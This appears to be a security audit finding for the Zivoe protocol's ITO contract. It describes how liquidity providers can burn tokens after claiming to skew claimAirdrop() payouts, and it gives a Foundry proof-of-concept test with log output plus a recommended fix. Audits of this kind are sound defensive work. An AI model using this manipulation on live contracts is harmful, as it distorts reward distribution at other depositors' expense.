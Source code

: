 Large Ceramic Swan

high

# liquidity providers can maliciously burn tokens, causing the final result of `ZivoeITO::claimAirdrop()` to deviate significantly from expectations.

## Summary
liquidity providers can maliciously burn tokens, causing the final result of `ZivoeITO::claimAirdrop()` to deviate significantly from expectations.
## Vulnerability Detail
The `ZivoeITO::claimAirdrop()` method uses `token.totalSupply()` to obtain the total amount of tokens in real time to calculate the amount of ZVE that the user can obtain. If the user maliciously burns tokens after receiving the airdrop, the final result will deviate significantly from expectations.
```js
        // Calculate proportion of $ZVE awarded based on $pZVE credits.
        uint256 upper = seniorCreditsOwned + juniorCreditsOwned;
        uint256 middle = IERC20(IZivoeGlobals_ITO(GBL).ZVE()).totalSupply() / 20;
@>        uint256 lower = IERC20(IZivoeGlobals_ITO(GBL).zSTT()).totalSupply() * 3 + (
            IERC20(IZivoeGlobals_ITO(GBL).zJTT()).totalSupply()
        );

        emit AirdropClaimed(depositor, seniorCreditsOwned / 3, juniorCreditsOwned, upper * middle / lower);

        IERC20(IZivoeGlobals_ITO(GBL).zJTT()).safeTransfer(depositor, juniorCreditsOwned);
        IERC20(IZivoeGlobals_ITO(GBL).zSTT()).safeTransfer(depositor, seniorCreditsOwned / 3);

        if (upper * middle / lower > 0) {
            ITO_IZivoeRewardsVesting(IZivoeGlobals_ITO(GBL).vestZVE()).createVestingSchedule(
@>                depositor, 0, 360, upper * middle / lower, false
            );
        }
```
### Poc
```js
        // liquidity providers can maliciously burn tokens, causing the final result of `ZivoeITO::claimAirdrop()` to deviate significantly from expectations.
    function testUsersCanMaliciouslyBurnTokens() public {
        // start commence 
        vm.prank(address(zvl));
        ITO.commence();
        // All users deposit 1e18 tokens
        uint256 amount = 1e18;
        depositSenior(lpOne,amount);
        depositSenior(lpTwo,amount);
        depositSenior(lpThree,amount);
        depositSenior(lpFour,amount);
        // Warp to end of ITO.
        vm.warp(ITO.end() + 1 seconds);
        // claimAirdrop
        // lpOne
        ITO.claimAirdrop(lpOne);
        (, , ,uint256 totalVesting, , ,) = vestZVE.viewSchedule(address(lpOne));
        console.log("lpOne totalVesting:",totalVesting);
        vm.prank(lpOne);
        zSTT.burn(amount);
        // lpTwo
        ITO.claimAirdrop(lpTwo);
        (, , ,totalVesting, , ,) = vestZVE.viewSchedule(address(lpTwo));
        console.log("lpTwo totalVesting:",totalVesting);
        vm.prank(lpTwo);
        zSTT.burn(amount);
        // lpThree
        ITO.claimAirdrop(lpThree);
        (, , ,totalVesting, , ,) = vestZVE.viewSchedule(address(lpThree));
        console.log("lpThree totalVesting:",totalVesting);
        vm.prank(lpThree);
        zSTT.burn(amount);    
        // lpFour
        ITO.claimAirdrop(lpFour);
        (, , ,totalVesting, , ,) = vestZVE.viewSchedule(address(lpFour));
        console.log("lpFour totalVesting:",totalVesting);
        vm.prank(lpFour);
        zSTT.burn(amount);
    }
    // [PASS] testUsersCanMaliciouslyBurnTokens() (gas: 2115840)
    // Logs:
    //     lpOne totalVesting: 312500000000000000000000
    //     lpTwo totalVesting: 416666666666666666666666
    //     lpThree totalVesting: 625000000000000000000000
    //     lpFour totalVesting: 1250000000000000000000000
```
Even if there are only `IERC20(IZivoeGlobals_ITO(GBL).ZVE()).totalSupply() / 20` amount of tokens in the contract, subsequent lp will revert due to insufficient amount when calling.
## Impact
liquidity providers can maliciously burn tokens, causing the final result of `ZivoeITO::claimAirdrop()` to deviate significantly from expectations.
Even if the above event does not occur, if lp does not call `ZivoeITO::claimAirdrop()` at the first time. However, `ZivoeITO::migrateDeposits()` will execute `ZivoeTranches::unlock()`, causing `ZivoeTranches::depositJunior()` and `ZivoeTranches::depositSenior()` to be opened, and another calculation problem will occur.
## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeITO.sol#L203-L242
## Tool used

Manual Review

## Recommendation
The total amount of tokens saved separately is used to calculate the airdrop